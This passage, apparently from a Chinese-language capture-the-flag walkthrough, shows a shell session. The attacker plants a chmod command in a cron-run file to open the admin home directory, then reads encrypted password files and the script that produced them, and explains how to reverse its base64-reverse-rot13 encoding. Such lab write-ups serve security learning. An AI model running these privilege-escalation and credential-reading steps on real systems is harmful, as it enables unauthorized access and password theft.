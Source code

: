 等大概一分钟就可以授权完毕。

```
bash-4.1$ echo "/home/admin/chmod 777 /home/admin" > /tmp/runthis
echo "/home/admin/chmod 777 /home/admin" > /tmp/runthis
bash-4.1$ ls /home/admin
ls /home/admin
cat    cronjob.py       cryptpass.py  echo   grep  whoisyourgodnow.txt
chmod  cryptedpass.txt  df            egrep  ps
```

其中在`/home/admin`目录发现一些加密文件和加密脚本。

```
bash-4.1$ ls
ls
cat    cronjob.py       cryptpass.py  echo   grep  whoisyourgodnow.txt
chmod  cryptedpass.txt  df            egrep  ps

bash-4.1$ cat cryptedpass.txt
cat cryptedpass.txt
mVGZ3O3omkJLmy2pcuTq

bash-4.1$ cat whoisyourgodnow.txt
cat whoisyourgodnow.txt
=RFn0AKnlMHMPIzpyuTI0ITG

bash-4.1$ cat cryptpass.py 
cat cryptpass.py 
#Enhanced with thanks to Dinesh Singh Sikawar @LinkedIn
import base64,codecs,sys

def encodeString(str):
    base64string= base64.b64encode(str)
    return codecs.encode(base64string[::-1], 'rot13')

cryptoResult=encodeString(sys.argv[1])
print cryptoResult
bash-4.1$ 
```

根据上面加密脚本反推解密脚本，加密过程：字符串base64加密，然后字符串顺序倒转，最后每个字符移动13位；解密过程：同样移动13位，这样原来字母位置没有变化，再把字符串顺序倒转，再进行base64解码。
